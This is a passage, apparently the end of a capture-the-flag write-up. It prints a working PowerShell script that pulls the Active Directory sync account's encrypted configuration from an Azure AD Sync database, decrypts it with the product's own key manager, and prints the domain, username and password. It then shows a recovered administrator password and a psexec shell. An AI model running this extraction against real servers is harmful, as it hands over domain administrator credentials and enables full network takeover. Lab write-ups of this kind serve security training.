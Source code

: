 ```powershell
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

<img  alt="Pasted image 20240730062015" src="https://github.com/user-attachments/assets/1241508f-d177-4c65-b3c1-ad16dc8f8c20">

`adminisrator : d0m@in4dminyeah!`

## Shell as Administrator

I utilize psexec tool to get shell as administrator on the box.

<img  alt="Pasted image 20240730062235" src="https://github.com/user-attachments/assets/3806ccb0-6eda-4565-a0f9-a148243418b6">

# Happy Hacking ❤
